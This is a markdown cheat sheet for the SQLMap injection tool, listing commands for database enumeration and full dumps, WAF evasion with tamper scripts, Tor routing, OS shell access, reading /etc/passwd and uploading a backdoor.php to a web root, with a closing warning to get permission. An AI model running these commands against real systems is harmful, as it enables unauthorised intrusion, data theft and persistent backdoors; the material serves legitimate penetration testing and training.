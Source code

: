 # SQLMap Cheatsheet

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers.

---

## **Basic Usage**

* **Targeting a URL:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)"
    ```

* **Targeting a POST request:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php](http://example.com/vuln.php)" --data="id=1&name=test"
    ```

* **Targeting from a file (e.g., Burp Suite request):**
    ```bash
    sqlmap -r request.txt
    ```

---

## **Enumeration**

* **List databases:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --dbs
    ```

* **List tables for a specific database:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" -D database_name --tables
    ```

* **List columns for a specific table in a specific database:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" -D database_name -T table_name --columns
    ```

* **Dump data from a specific table:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" -D database_name -T table_name --dump
    ```

* **Dump specific columns from a specific table:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" -D database_name -T table_name -C column1,column2 --dump
    ```

* **Dump all data from all databases:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --dump-all
    ```

* **Identify current database user:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --current-user
    ```

* **Identify current database:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --current-db
    ```

* **Check if the current user is a DBA:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --is-dba
    ```

---

## **Techniques & Levels**

* **Specify injection techniques (B=Boolean-based blind, E=Error-based, U=Union query, S=Stacked queries, T=Time-based blind, Q=Inline queries):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --technique=BUEST
    ```
    * By default, sqlmap tests all techniques.

* **Set the level of tests to perform (1-5, default is 1):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --level=3
    ```
    * Higher levels test more payloads and injection points.

* **Set the risk of tests to perform (1-3, default is 1):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --risk=2
    ```
    * Higher risks may include more aggressive payloads that could potentially cause issues.

---

## **Advanced Options**

* **Bypass WAF/IDS with a tamper script:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --tamper=space2plus.py
    ```
    * Refer to `sqlmap/tamper/` directory for available scripts.

* **Set delay between HTTP requests (seconds):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --delay=1
    ```

* **Set timeout before considering an HTTP request as non-responsive (seconds):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --timeout=10
    ```

* **Randomize User-Agent:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --random-agent
    ```

* **Use a specific User-Agent:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --user-agent="MyCustomAgent"
    ```

* **Set a specific cookie:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --cookie="PHPSESSID=abcdef12345"
    ```

* **Save sessions and resume scans:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --session-file=my_session.sqlite
    ```
    * Sqlmap saves sessions automatically in `~/.sqlmap/output/<target_hash>/`.

* **Force the database management system (useful if auto-detection fails):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --dbms=MySQL
    ```
    * Supported DBMS: MySQL, PostgreSQL, Microsoft SQL Server, Oracle, SQLite, IBM DB2, Sybase, SAP MaxDB, Informix, HSQLDB, H2, MonetDB, Apache Derby, Firebird, FrontBase, MimerSQL, CUBRID, InterSystems Cache, Vertica, Altibase, Drizzle, Presto, eXtremeDB.

* **Run OS commands:**
    * **Interactive shell:**
        ```bash
        sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --os-shell
        ```
    * **Execute a specific command:**
        ```bash
        sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --os-cmd="whoami"
        ```
        * Requires sufficient privileges and specific database configurations (e.g., `xp_cmdshell` on MSSQL, `sys_exec` on MySQL).

* **Upload/Download files:**
    * **Upload a file:**
        ```bash
        sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --file-write="/path/to/local/file.php" --file-dest="/var/www/html/backdoor.php"
        ```
    * **Download a file:**
        ```bash
        sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --file-read="/etc/passwd"
        ```
        * Requires `LOAD_FILE` on MySQL or similar functionalities.

---

## **Other Useful Options**

* **Verbose output (1-6):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" -v 3
    ```
    * `1`: Show information about the discovery of vulnerable parameters.
    * `2`: Show all tested payloads.
    * `3`: Show injected payloads and their corresponding HTTP responses.
    * `4`: Show HTTP requests and HTTP responses.
    * `5`: Show HTTP requests, HTTP responses and database results.
    * `6`: Show all HTTP traffic.

* **Proxy support:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --proxy="[http://127.0.0.1:8080](http://127.0.0.1:8080)"
    ```

* **Tor support:**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --tor --tor-port=9050 --tor-type=SOCKS5
    ```

* **Disable payload encoding (useful for certain WAF bypasses):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --no-escape
    ```

* **Bypass `magic_quotes_gpc` (for older PHP versions):**
    ```bash
    sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --magic-quotes
    ```

---

## **Web Application Firewall (WAF) Evasion**

* **Generic WAF detection and bypasses are often handled by `--level` and `--risk`.**
* **Tamper scripts are your primary tool for WAF evasion.**
    * `--tamper=space2plus.py`: Replaces spaces with `+`.
    * `--tamper=apostrophemask.py`: Replaces apostrophes with their UTF-8 obfuscated counterpart.
    * `--tamper=charencode.py`: UTF-8 URL-encodes all characters.
    * `--tamper=unionalltounion.py`: Replaces UNION ALL SELECT with UNION SELECT.
    * Many more available in `sqlmap/tamper/`. You can also chain them:
        ```bash
        sqlmap -u "[http://example.com/vuln.php?id=1](http://example.com/vuln.php?id=1)" --tamper="space2plus.py,charencode.py"
        ```

---

## **Cautionary Notes**

* **Always obtain explicit permission before scanning any system.** Unauthorized scanning is illegal and unethical.
* **Be aware of the impact of your scans.** High-risk payloads or aggressive techniques can disrupt services.
* **SQLMap is a powerful tool.** Use it responsibly and ethically.

---
